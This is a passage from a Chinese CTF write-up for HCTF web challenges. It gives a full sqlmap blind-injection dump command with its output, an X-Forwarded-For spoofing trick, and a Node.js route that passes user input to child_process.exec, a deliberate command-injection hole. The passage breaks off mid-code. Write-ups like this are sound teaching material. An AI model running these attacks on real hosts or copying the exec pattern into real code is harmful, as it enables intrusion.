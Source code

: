 然后开始dump ``log`` 表的数据：

	sqlmap -v 3 --technique=T -u "http://121.41.37.11:25045/img.php?file=*%231.jpg" --level=5 --threads=10 -D t2_db -T log -C param,type --dump
	
得到我们所需的数据：

	Database: t2_db
	Table: log
	[3 entries]
	+-------+----------+
	| param | type     |
	+-------+----------+
	| user  | A1rB4s1C |
	| user  | guest    |
	| user  | V1ew     |
	+-------+----------+
	
然后修改 ``X-Forwarded-For`` 来让自己ip变为程序认为是合法的地址（218.75.123.186）去访问如下url：

	http://121.41.37.11:25045/get.php?user=A1rB4s1C
	
flag：``hctf{Why_are_U_S0_DIA0?????}``

##opensource（300pt）

一开始各种google，baidu源码，发现了有 ``.git`` 目录。后来队友发现wooyun上有个案例：[友盟网git服务使用不当导致源代码泄露](http://wooyun.org/bugs/wooyun-2010-076372)

根据这个案例提供的方法把 ``art-cli`` 的源码down到本地进行审计。

然后在 ``/app.js`` 中发现了另一个根目录：

{% highlight javascript %}

	...
	app.use(favicon());
	app.use(logger('dev'));
	app.use(bodyParser.json());
	app.use(bodyParser.urlencoded());
	app.use(cookieParser());

	app.use('/', routes);
	app.use('/ac6555bfe23f5fe7e98fdcc0cd5f2451', pangci);

	/// catch 404 and forwarding to error handler
	...

{% endhighlight %}
	
然后看程序对 ``/ac6555bfe23f5fe7e98fdcc0cd5f2451`` 路径的处理函数，对应文件 ``/routes/pangci.js``：

{% highlight javascript %}

var express = require('express');
var router = express.Router();
var fs = require('fs');
var path = require('path');
var cp = require('child_process');

router.get('/', function(req, res) {
  var data = path.normalize('/tmp/flag');

  if (req.param('pangci')) {
    cp.exec(secure(req.param('pangci')) + ' ' + data, function (err, stdout, stderr) {
      if (err) { res.end('Ohhhhh MY SWEET!!!YOOOOOO HURT ME!!') }
      var limit = stdout.split('\n').slice(0, 5).join('\n');
      res.end(limit);
    });
  } else {